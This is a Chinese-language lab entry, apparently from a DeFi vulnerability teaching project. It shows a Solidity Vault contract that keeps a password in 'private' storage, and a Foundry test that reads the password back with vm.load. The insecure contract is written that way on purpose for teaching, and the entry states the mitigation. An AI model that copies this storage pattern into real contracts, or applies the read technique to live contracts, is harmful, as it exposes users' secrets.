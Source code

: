 # 私有数据 
[Privatedata.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Privatedata.sol)  
**名称：** 私有数据泄露  

**描述：**  
Solidity将合约中定义的变量存储在插槽中。每个插槽最多可容纳32字节或256位。存储在链上的所有数据，无论是公有的还是私有的，都可以读取，因此可以通过预测私有数据所在的内存槽从Vault合约中读取私有数据。  
如果在生产环境中使用Vault合约，恶意行为者可能会采用类似的技术来访问敏感信息，例如用户密码。  

**缓解建议：**  
避免将敏感数据存储在链上。   

**参考**  
https://quillaudits.medium.com/accessing-private-data-in-smart-contracts-quillaudits-fe847581ce6d  



**Vault合约：**  
```
contract Vault {
    // 插槽 0
    uint256 private password;

    constructor(uint256 _password) {
        password = _password;
        User memory user = User({id: 0, password: bytes32(_password)});
        users.push(user);
        idToUser[0] = user;
    }

    struct User {
        uint id;
        bytes32 password;
    }

    // 插槽 1
    User[] public users;
    // 插槽 2
    mapping(uint => User) public idToUser;

    function getArrayLocation(
        uint slot,
        uint index,
        uint elementSize
    ) public pure returns (bytes32) {
        uint256 a = uint(keccak256(abi.encodePacked(slot))) +
            (index * elementSize);
        return bytes32(a);
    }
}
```  
**如何测试：**  
forge test --contracts src/test/Privatedata.sol-vvvv  
```
    // testReadprivatedata()的函数声明，这是一个公共函数。
function testReadprivatedata() public {
        
    // 创建带有参数“123456789”的Vault合约的新实例。
    VaultContract = new Vault(123456789);

    // 使用Vault合约地址和位置（0）调用`vm.load`函数
    // “vm.load”函数从指定合约的存储槽中加载数据。
    // 在这里，读取合约的第0个存储槽。在Solidity中，存储布局从插槽0开始。
    bytes32 leet = vm.load(address(VaultContract), bytes32(uint256(0)));

    // 记录第一个存储槽的值，将bytes32值转换为uint256。
    console.log(uint256(leet));

    // 再次调用“vm.load”函数，但这一次，它使用来自VaultContract合约的“getArrayLocation”方法来计算特定数组元素的存储槽。
    // 这是因为以太坊中的数组不是存储在连续的块中，而是对每个元素进行哈希处理以找到其位置。
    // 在这里，假设Vault合约中有一个数组，并且您正在尝试访问插槽1中的数据（基于您的参数）
    bytes32 user = vm.load(
        address(VaultContract),
        VaultContract.getArrayLocation(1, 1, 1)
    );
        
    // 记录从合约存储读取的特定数组元素的值，将其从 bytes32转换为uint256。
    console.log(uint256(user));
}
```  
**红色框：** 读取私有数据成功。  
![Alt text](image-8.png) 